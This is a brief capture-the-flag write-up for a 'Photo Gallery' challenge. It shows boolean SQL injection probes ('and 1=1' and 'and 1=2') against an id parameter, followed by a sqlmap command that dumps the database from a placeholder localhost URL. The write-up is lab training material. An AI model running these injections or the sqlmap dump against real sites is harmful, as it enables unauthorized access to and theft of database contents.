





# Photo Gallery - FLAG1

## 0x00 Index



## 0x01 Check Image Source



The image link looks like injectable 

http://127.0.0.1/xxxxxxxxxx/fetch?id=1



Tried with the following

```sql
fetch?id=1 and 1=1
fetch?id=1 and 1=2
```

1=1 works but 1=2 does not and shows some error.



## 0x02 Blind Injection

Do it with SqlMap.

```
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```

